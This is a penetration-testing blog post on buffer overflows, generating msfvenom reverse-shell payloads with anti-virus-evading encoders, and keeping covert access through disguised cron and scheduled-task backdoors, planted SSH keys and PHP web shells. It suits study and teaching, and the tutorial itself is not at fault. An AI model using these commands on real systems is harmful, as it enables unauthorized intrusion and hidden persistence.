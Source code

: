 ```yaml
---
layout: post
title: Exploitation and Post - Maintaining Access
subtitle: Maintaining Access
gh-badge:
  - star
  - fork
  - follow
tags:
  - Exploitation
  - Post
  - Hacking
  - Maintaining Access
  - Systems
comments: true
published: true
date: '2019-05-28'
---
```

Often exploitation of systems can be very loud, and can draw a lot of attention. This is why Penetration Testers need to maintain access to the systems that they successfully attack. Thankfully, there are many tools for both Windows and Linux that are built in and allow the attacker to maintain access. 

## A Simple Exploit

Before I go into methods of maintaining access, we must first know the whole picture on how an exploit works. We will a simple Buffer Overflow, with no ASLR/NX Bits/DEP. I'll get into bypassing those in a later time span. So, how a normal buffer overflow works is an attacker overwrites the space of a buffer with any junk characters to gain control of a certain area called the **EIP** or Extended Instruction Pointer, which is used in assembly. Assembly is one of the lowest level languages out there, and it's possibly the most important for any red teamer/penetration tester to learn. 

![Screenshot of CPU Register, provided by NullBytes](https://blog.spookysec.net/img/image.w1456.jpg)


Back to the EIP. In it's simplest form it points to code. If we can have it point to code, there's a large chance we can also execute code as well. So what we have so far is some garbage character, it could be anything from 0-9, A-F. After we have overwritten the buffer, we typically have the EIP, which we want to control to point to a function. This varies from program to program, but one common function is JMP ESP that we could take control of. If we told the EIP to point to the memory address of JMP ESP, we could in theory gain command execution on the system. So if we were to tell the EIP to point to JMP ESP we could easily gain access to the individuals system with a peice of code called **Shellcode**. An example script may look like so:

``` #!/usr/bin/python
 #Demo Buffer Overflow script
 overflow = "A" * 192
 EIP = 41424344
 nops = "\x90" * 16
 shellcode = <Ommitted>
 exploit = overflow + EIP + nops + shellcode
```

For additional Buffer Overflow resources I recommend reading Samsclass article on Vulnserver
https://samsclass.info/127/proj/vuln-server.htm
As well as dostackbufferoverflowgood
https://github.com/justinsteven/dostackbufferoverflowgood

## Shellcode

This will look a little bit less pretty and a little more complex in the real world however. But for now, we're at the point that I would like to get to -- **Shellcode**. Shellcode is used to gain access to a victims system, and it is typically generated by a tool called **msfvenom**. It can be found within the Metasploit Framework. There are two types of payloads, Staged and Stageless. Stageless payloads can be caught with any sort of listener, for example, a **NetCat**. 

## Generating Payloads with msfvenom

Stepping back a little bit to payloads and how we generate them. Generating them is quite simple with a tool called msfvenom, the whole purpose of the tool is to generate payloads, which payload you select will be dependant on your needs. Do you want a bigger payload, but with less data being sent across network you're attacking? Or, do you need a smaller payload because of the amount of buffer space allocated? Considering these things may help you pick a certain payload over another. To help you decide which payload you might want to use you can execute:

```
msfvenom --list payloads
```
You can always pipe the output to grep to help narrow down the search results
```
msfvenom --list payloads | grep linux | grep meterpreter
```

Typically you can use a standard reverse_tcp listener. To generate a sample payload, you would execute these commands depending on the Operating System you're attacking:

```
msfvenom -p windows/meterpreter/reverse_tcp LPORT=1337 LHOST=10.13.37.10 -f exe > shell.exe
msfvenom -p linux/meterpreter/reverse_tcp LPORT=1337 LHOST=10.13.37.10 -f elf > shell.elf
```

In certain cases you may want to include Encoders to evade basic anti-virus/anti-malware scans (-e), and exclude certain characters that may not execute your shellcode properly (-b), or even put it into a different format (-f) that allows you to drop the shellcode into a python script, you may want to do this in a buffer overflow script, for example.

```
msfvenom -p windows/meterpreter/reverse_tcp LPORT=1337 LHOST=10.13.37.10 -b \x00 -e x86/shikata_ga_nai -f python
```

Up until this point I have only talked about meterpreter based payloads, which are staged. That's interesting, but how do I get a shell. Well, you can use another tool within the metasploit framework. To enter the main part of the metasploit framework you can execute the following:

```
msfconsole
```

What you do after very much depends on what you want to do, but for payloads it's pretty standard, you must change the payload, listening host, and listening port to be the same that you used when you generated the shellcode. Refer to the image below on how to catch a staged payload.

![2_meterpreter_gotit.png](https://blog.spookysec.net/img/2_meterpreter_gotit.png)

## Maintaining Access

So after you have successfully exploited a system, what are some methods you can use to maintain access? Well reader, if you've made it to this part, congradulations, and there are several methods I will show.

## Task Scheduling Methods

Both Linux and Windows include ways to automatically execute tasks after every set period of time, this can easily be abused to create a backdoor into any system. In windows we can use a tool called Task Schedule, in Linux we can use a tool called Cron. The easiest way is to execute the shell file itself every 30 minutes, there are more complex ways to go about doing it, but this is the easiest way to backdoor a system with Task schedule/Cron. Please refer below for the exact commands/syntax.

```
Cron w/ Linux
root@localhost:~#crontab -e
and add a line
30 * * * * /root/.mysupersecretdir/.mysecretphotos/picofme
Change file location/name as needed

Task Schedule w/ Windows
C:\Windows\Font\> SCHTASKS.EXE /Create /tn “Windows Font Updater Application” /sc minute /mo 30 /tr C:\Windows\Font\updater.exe
Change file location/name as needed.
```

## SSH

Secure Shell, or SSH is a protocol used to remotely and securely access systems. Let's say you've gained access, a process that could be exploiteded was running as root/administraitor and you'd like to be able to re-access the system without re-exploiting it. How could we do this? We wouldn't want to change the administrators password or else they would know there's an issue and you could be discovered. SSH uses a system of public and private keys. If a device knows another devices public key and is in a certain file (the authorized hosts file in the root .ssh directory) a device may ssh into it without authenthication. This may look like

```
root@system:~# cd /root/.ssh/
root@system:~# touch authorized_keys
root@system:~# echo "Insert Public key Here" >> authorized_keys
root@system:~# exit
root@attacker:~# ssh root@192.168.1.2
~Welcome to Ubuntu 18.04 root~
root@system:~#
```
Windows 10 and later now contain SSH by default, the method above can also be used.

## More Intrusive Methods

Web Server's, most of us have one, and around 80% of them are running PHP. Knowing this, we could leave a hidden PHP file somewhere on the web server, this is a very risky method and could easily be discovered by almost anyone, namely because random files with public IP addresses do not appear out of nowhere. Another method you could use is placing a PHP "Web Shell" which allows commands to be executed. One can be found here:

https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985

If I can come up with any other methods, I will update to include them :)

